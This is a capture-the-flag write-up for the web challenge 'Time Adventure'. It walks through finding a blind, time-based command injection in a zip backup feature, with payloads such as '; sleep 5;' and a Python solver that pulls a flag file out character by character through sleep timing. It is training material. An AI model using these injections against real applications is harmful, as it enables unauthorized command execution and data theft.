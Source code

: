 # [WEB] Time Adventure

---

![timeadventure.png](assets/timeadventure.png)

### 10th March 2024

**Author**: `kahang`

**Difficulty**: `Medium`

**Flag**: `FIA{t1m3_1s_4n_1llus10n}`

### Description

> *It's Adventure Time... Don't forget to back up your file.*
> 

### Objective

> Identifying and exploiting Blind Command Injection Vulnerabilities in the web application.
> 
### Skills Required
- Basic Web Fundamental & Exploitation
- Basic Linux Command
- Basic Python Programming
---

# Solution

## Information Gathering

- First, we need to know what this web does and what features does it have.

![Untitled](assets/Untitled.png)

- So there is a function that executes a Linux command `zip` to package the whole directory `/var/www/html` into `/tmp` with a custom file name to the backend server.
- Next, view the Source of the website and see a suspicious comment.
- Press `Ctrl + U` or `Right Click → View page source`.
    
    ![2024-03-10_14h26_26.png](assets/2024-03-10_14h26_26.png)
    

```html
<!-- Admin Note: I have saved a secret credential in a super secret text file located in the "/" folder. Please make sure to check it out. -->
```

- With this information, we can guess that there’s a text file `.txt` in **`/`** (Root Directory) that might contain interesting data with an unknown name.

## Identify Vulnerability

- Try to inject some basic **Command Injection** payload. For example `; whoami ;`

![Untitled](assets/Untitled%201.png)

- As we can see the web says that this command has been executed but there is no actual information from the server display back so we can’t know whether was it executed or not.
- Let’s verify it by sending a delay command to see if the backend server interpreting it. With the payload is `; sleep 5;`

![ezgif-5-de44b10e52.gif](assets/ezgif-5-de44b10e52.gif)

- We have noticed that after executing the command, a loading GIF appears with a 5-second delay as if the command were set to `sleep 5`.

![Untitled](assets/Untitled%202.png)

- This can be concluded as a Blind Command Injection or Time-based Command Injection.

## Crafting Payload

- By using `cat` with wild card `*` , we can read all the files within a directory without the need of knowing the file name and the `cut`command is used for taking each character one by one.

![Untitled](assets/Untitled%203.png)

- Adding a little if-else statement so that we can check if the character taken out matches or not.

![Untitled](assets/Untitled%204.png)

## Solver

- We could use the *Side Channel Attack* technique to extract data. The main idea is to "manipulate time" and grep data with the `sleep`command character-by-character from the backend.

![Untitled](assets/Untitled%205.png)

- Here is the whole script:

```python
import requests 
import time
url = "https://timeadventure.fiahackingisfun.id.vn/"
charset = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()-_+=~`[]{}|:;\"'<>,.?/"
flag = ""
# Payload: Checks if the character matches
payload = "; if [ \"$(cat /*.txt|cut -c{})\" = \"{}\" ]; then sleep 2; fi;"
while True:
    for char in charset:
        query_payload = payload.format(len(flag)+1, char)
        data = {"command": "backup", "target": query_payload}
        start_time = time.time()  # Starts recording the time
        # Sending Request
        res = requests.post(url, data=data)
        end_time = time.time()  # Stops recording the time
        real_time = end_time - start_time
        # If the entire request and response time > 2, then append the character
        if real_time > 2:
            flag += char
            break
    print(flag)
```

## Bonus

- As in the script above, I’ve used the whole characters set in ASCII format. The total amount of the set is 93 characters `ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()-_+=~`[]{}|:;\"'<>,.?/` . In the worst case, we must have to brute force or send total requests to the web application 93 times for each character, and for the whole string “FIA{t1m3_1s_4n_1llus10n}” contains 24 characters, it’s gonna be `24 * 93 = 2304` possibilities.
- This kinda takes time and not efficiency, therefore we can convert to Hexadecimal or even Binary to decrease the amount of guessing each character. When converted to Hexadecimal, the length of the character now becomes 48 but the range of Hex is only 16 `(0 → F)`. Therefore, the total possibilities now are `48 * 16 = 768`.

![Untitled](../assets/Untitled%206.png)

- For the most optimization, we could convert it to Binary. From now on, the whole length of the string that we need to brute force is 192 characters and the possibility of each character is only 2 because Binary is `0 and 1`. Therefore, the possibility for guessing this string is `192 * 2 = 384`.

![Untitled](../assets/Untitled%207.png)